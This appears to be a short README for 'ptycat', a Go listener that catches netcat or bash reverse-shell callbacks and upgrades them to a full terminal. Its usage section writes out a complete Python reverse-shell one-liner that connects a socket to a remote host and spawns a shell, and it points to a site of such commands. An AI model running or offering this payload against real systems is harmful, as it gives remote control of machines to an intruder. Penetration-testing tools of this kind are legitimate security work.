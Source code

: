 # ptycat

Aren't you tired of catching netcat/bash callbacks and forgetting how to muck with tty settings? Tired of hitting CTRL-Z and performing `stty` magic? Me too!

### Installation
```go get github.com/dropk1ck/ptycat```

### Usage
```
# full help available with -h
ptycat -l -p <port to listen on>

# use a pty-spawning shell command from something like revshells.com, such as:
export RHOST="localhost";export RPORT=9000;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

```

And that's it! CTRL-C, up-arrow, tab-complete to your heart's content.
